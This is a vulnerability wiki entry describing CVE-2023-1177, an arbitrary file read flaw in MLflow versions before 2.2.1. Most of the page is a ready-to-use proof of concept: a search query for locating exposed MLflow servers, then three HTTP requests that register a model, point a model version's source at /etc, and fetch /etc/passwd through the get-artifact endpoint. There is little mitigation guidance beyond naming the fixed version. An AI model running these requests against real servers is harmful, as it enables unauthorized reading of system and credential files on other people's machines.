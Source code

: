 # MLflow get-artifact arbitrary file reading vulnerability CVE-2023-1177

## Vulnerability Description

Users who host MLflow open source projects using the MLflow model registry mlflow server or mlflow ui use MLflow versions earlier than MLflow 2.2.1 without restricting who can query their servers (for example, by using cloud VPC, inbound requested IP whitelist, or authentication/authorization middleware).

This issue only affects running the mlflow server and mlflow ui commands. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">MLflow < 2.2.1</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app.name="MLflow"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1680785392550-723bb58a-8fb1-49ca-afd7-9faa9841b7ca.png)

Verify POC

```plain
POST /ajax-api/2.0/mlflow/registered-models/create
Content-Type: application/json

{"name": "testfile"}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1680785555309-bc13e99b-784d-46aa-9b93-b3ca28ff457e.png)

```plain
POST /ajax-api/2.0/mlflow/model-versions/create
Content-Type: application/json

{"name": "testfile", "source": "/etc"}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1680785596505-b26cf5f7-10c6-4202-83f7-d5ccd71a797f.png)

```plain
/model-versions/get-artifact?path=passwd&name=testfile&version=1
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1680785731521-49f79166-61c1-4e98-9cef-461227256df9.png)